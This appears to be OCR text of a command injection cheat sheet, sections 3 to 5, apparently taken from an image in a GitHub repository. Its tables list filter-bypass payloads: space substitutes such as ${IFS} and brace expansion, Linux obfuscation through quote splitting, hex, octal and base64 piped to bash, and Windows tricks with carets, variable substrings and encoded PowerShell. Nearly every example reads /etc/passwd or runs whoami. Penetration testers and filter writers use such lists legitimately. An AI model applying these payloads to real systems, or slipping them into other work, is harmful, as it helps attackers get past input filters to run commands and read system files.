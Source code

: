 ## 3. Space Bypass Techniques

|Method|Example|Platform|Description|
|---|---|---|---|
|${IFS}|cat${IFS}/etc/passwd|Linux|Internal Field Separator|
|${\t}|cat${\t}/etc/passwd|Linux|Tab character|
|{cat,/etc/passwd}|{cat,/etc/passwd}|Linux|Brace expansion|
|X=$'cat\x20/etc/passwd'|$X|Linux|ANSI-C quoting|
|%09|cat%09/etc/passwd|Both|URL-encoded tab|
|<tab>|cat<tab>/etc/passwd|Both|Literal tab character|
|{cat,"passwd"}|{cat,"/etc/passwd"}|Linux|Brace expansion with quotes|
|$'\x20'|cat$'\x20'/etc/passwd|Linux|Hex-encoded space|
|$' '|cat$' '/etc/passwd|Linux|Single quoted space|
|\x20|cat\x20/etc/passwd|Linux|Hex space (shell)|

## 4. Linux-Specific Command Obfuscation

|Technique|Example|Description|Alternative|
|---|---|---|---|
|Base64|$(echo "Y2F0IC9ldGMvcGFzc3dk" \| base64 -d)|Base64 encoded command|echo Y2F0IC9ldGMvcGFzc3dk\|base64 -d\|bash|
|Single Quotes|w'h'o'a'm'i|Quote injection|c'a't' '/e't'c/pa's'swd|
|Double Quotes|w"h"o"a"m"i"|Double quote injection|c"a"t" "/e"t"c/pa"s"swd|
|Backslash|w\h\o\a\m\i|Backslash injection|c\a\t\ /e\t\c/\passwd|
|$@ Character|w$@h$@o$@a$@m$@i|Parameter expansion|c$@a$@t$@ /e$@tc/pa$@sswd|
|Variable Expansion|$(w)$(h)$(o)$(a)$(m)$(i)|Variable substitution|${HOME:0:1}${HOME:1:1}${HOME:2:1}|
|Hex Encoding|$'\x77\x68\x6f\x61\x6d\x69'|Hex encoded string|printf "\x77\x68\x6f\x61\x6d\x69"|
|Octal Encoding|$'\167\150\157\141\155\151'|Octal encoded string|printf "\167\150\157\141\155\151"|
|Unicode Encoding|$'\u0077\u0068\u006f\u0061\u006d\u0069'|Unicode encoded string|echo -e "\u0077\u0068\u006f\u0061\u006d\u0069"|

## 5. Windows-Specific Command Obfuscation

|Technique|Example|Description|Alternative|
|---|---|---|---|
|Caret|w^h^o^a^m^i|Caret injection|d^i^r c:^\^windows|
|Environment Variables|%SYSTEMROOT:~0,1%dir|Variable substring|%COMSPEC:~0,1%md|
|Command Extensions|FOR %i IN (whoami) DO %i|FOR loop execution|FOR /F "tokens=*" %i IN ('whoami') DO %i|
|Call Command|CALL whoami|CALL keyword|CALL "who"+"ami"|
|Delayed Expansion|!COMSPEC!|Delayed variable expansion|!SYSTEMROOT!\system32\whoami.exe|
|String Concatenation|set a=who&set b=ami&call %a%%b%|String building|set x=who&& call %x%ami|
|Command Aliases|doskey ls=dir && ls|Command aliasing|doskey w=whoami && w|
|PowerShell Tricks|powershell -enc BASE64|Base64 encoded command|powershell -nop -c "whoami"|
|Batch Variables|%COMSPEC:~0,1%MD|Variable substring|%SystemRoot:~0,1%IR|